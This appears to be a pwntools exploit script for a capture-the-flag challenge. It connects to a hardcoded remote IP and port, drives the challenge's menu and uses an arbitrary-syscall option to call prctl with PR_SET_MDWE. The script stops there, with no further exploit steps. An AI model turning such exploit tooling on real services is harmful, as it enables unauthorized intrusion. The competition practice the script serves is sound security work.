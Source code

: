 ```python
from pwn import *
from pwnlib import constants

local = 0
pc = './rootfs/chal'
aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF(pc)

if local == 1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
else:
    remote_addr = ['121.41.238.106', 26116]
    p = remote(remote_addr[0], remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8, b'\x00'))
    else:
        return u64(rl().strip().ljust(8,b'\x00'))

def Invoke():
    ru("3. Exit\r\n")
    sl("2")

def _syscall(sys_no, a1, a2, a3):
    ru('3. Invoke the Forbidden Runes\r\n')
    sl('3')
    ru("60 3 3 3): ")
    sl(f"{sys_no} {a1} {a2} {a3}")

def Strike():
    ru('3. Invoke the Forbidden Runes\r\n')
    sl('1')

if __name__ == "__main__":
    ru("tell me your name: ")
    sl('aaa')

    '''
    linux/prctl.h:#define PR_SET_MDWE               65
    linux/prctl.h:#define PR_MDWE_REFUSE_EXEC_GAIN  (1UL << 0)
    '''
    Invoke()
    _syscall(int(constants.SYS_prctl), 65, 1, 0)
```